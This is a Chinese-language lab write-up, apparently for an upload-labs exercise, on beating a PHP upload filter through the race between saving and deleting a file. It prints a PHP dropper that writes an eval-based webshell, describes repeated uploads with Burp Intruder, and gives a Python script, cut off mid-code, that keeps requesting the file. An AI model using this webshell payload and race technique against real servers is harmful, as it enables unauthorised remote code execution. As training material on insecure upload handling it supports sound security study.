 ```php
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

### 绕过方法

代码先将上传的 文件保存在服务器的临时路径里，再通过检查来判断是否转移到正式路径。

从保存到临时路径到未通过检测、删除文件之间有个短暂的时间差，在此之前的文件是存在服务器上的，所以可以不断上传一个可以在生成webshell.php的文件，同时不断去访问这个文件，总有几率在文件未被删除时访问到文件，激活代码，产生一个webshell.php。

文件内容为：

```php
<?php
fputs(fopen('webshell.php','w'),'<?php @eval($_POST["wtlr"]) ?>');
?>
```

重复发包的方法：

将抓到的包转到Intruder模块：

<img src="https://pic.imgdb.cn/item/64cb623f1ddac507ccadf536.jpg" style="zoom:67%;" />

<img src="https://pic.imgdb.cn/item/64cb63021ddac507ccafaee3.jpg" style="zoom:67%;" />

线程随便设置一下：

<img src="https://pic.imgdb.cn/item/64cb63cc1ddac507ccb1e650.jpg" style="zoom:67%;" />

最后点击**"Start attack"**就可以不断发包了。

重复访问url的脚本：

```python
import requests
import time
import concurrent.futures

def visit_website(url, request_number):
    try:
        with requests.Session() as session:
            response = session.get(url)
            if response.status_code == 200:
                print(f"Request {request_number} - Status code: {response.status_code}")
            else:
                print(f"Request {request_number} - Error: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request {request_number} - An error occurred:", str(e))

# 用户输入要访问的网站地址、请求数量和延迟时间
url = input("请输入要访问的网站地址（包括协议）：")
num_requests = int(input("请输入请求数量："))
delay = float(input("请输入每次请求的延迟时间（以秒为单位）："))

# 创建线程池
with concurrent.futures.ThreadPoolExecutor() as executor:
    # 提交任务到线程池
    future_to_url = {executor.submit(visit_website, url, i+1): i+1 for i in range(num_requests)}
```